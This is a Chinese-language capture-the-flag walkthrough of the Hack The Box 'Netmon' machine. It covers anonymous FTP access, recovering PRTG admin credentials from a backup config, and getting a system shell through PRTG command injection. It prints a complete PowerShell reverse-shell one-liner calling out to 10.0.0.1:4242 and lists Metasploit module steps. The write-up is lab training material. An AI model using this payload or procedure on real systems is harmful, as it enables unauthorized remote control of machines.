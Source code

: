 ```yaml
---
description: >-
  FTP anonymous; Indy httpd 18.1.37.13946; Improper input validation; Command
  Injection;           CVE-2018-19203 CVE-2018-19204
---
```


# Hack the box - Netmon

## User Flag

获取user flag还是比较简单的。首先，例行公事，用nmap扫描靶机。

![](.gitbook/assets/1.PNG)

注意到靶机的FTP是允许anonymous登录的，我们这时可以使用匿名账号登陆。当提示输入password时，直接按enter就行。然后cd到Users文件夹，user flag就在里面，用more指令就可以看到文件内容了。

![](<.gitbook/assets/2 (1).PNG>)

接下来我们遇到了一个问题，作为FTP用户，我们无法访问Aministrator文件夹，而system flag很有可能就在这个文件夹里面。

![](<.gitbook/assets/3 (1).PNG>)

## System Flag

我们现在需要找新的方法进入系统。扫描靶机的TCP/80端口，我们会发现靶机80端口上运行的服务是Indy httpd 18.1.37.13946&#x20;

![](<.gitbook/assets/4 (1).PNG>)

搜索一下这个软件，我们会发现这个软件允许Remote code execution 因为没有足够的input sanitation

![](.gitbook/assets/6.PNG)

现在我们输入http://10.10.10.152 到浏览器的URL，登录账户需要密码。首先我们试试输入用户名 prtgadmin，和密码prtgadmin，也就是这个服务器的默认管理员账户，但系统并不接受这个密码。

现在我们可以FTP登录靶机系统，我们可以通过查看PRTG配置文件的方式查看密码。为了方便查看文件，我们先用wget -m ftp://10.10.10.152/ProgramData/Paessler下载配置文件。

![](.gitbook/assets/8.PNG)

然后就在Configuration.old.bak 文件里，我们可以找到用户prtgadmin以前的密码 PrTg@dmin2018 。截图中的 grep -A 2 prtgadmin 指令可以让grep显示下面两行的内容。

![](.gitbook/assets/9.PNG)

输入PrTg@dmin2018是不可以进入的，这时候我们就需要猜一猜了。这个靶机的创造时间是2019年，所以我们把2018换成2019。然后我们就得到了账户密码，用户名是 **prtgadmin**，密码是**PrTg@dmin2019**

![](.gitbook/assets/10.PNG)

恭喜，你进入了服务器内部。但是离获取系统权限还有距离。

获取系统权限有两种方法，一种比较简单，一种比较复杂，我们先讲简单的。

## 方法1

{% embed url="https://davidhamann.de/2020/01/22/htb-writeup-netmon" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell" %}

这里要先感谢David Hamann在自己的blog里提供的方法，非常简单。简单来说，David使用了服务器中remote code execution漏洞，用power shell建立了reverse shell。

```
"$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

David很明显成功了，但我不知道是怎么成功的。因为根据最先发现服务器漏洞的人，特殊符号 `' " >` 被过滤了。David使用的power shell指令是不太可能被执行成功的。

## 方法2

在kali linux上，输入`msfconsole`开启metasploit framework。然后使用use prtg指令。用`set admin_password PrTg@dmin2019` 来设置模组中的管理员密码。用 `set rhost 10.10.10.152` 设置靶机地址。用`set lhost <本机IP>` 设置本机地址。用`run`执行模组然后就就获得shell了。&#x20;

![](.gitbook/assets/12.PNG)

{% embed url="https://www.cybersecurity-help.cz/vdb/SB2018092404" %}

{% embed url="https://www.exploit-db.com/exploits/46527" %}

{% embed url="https://www.codewatch.org/blog?p=453" %}
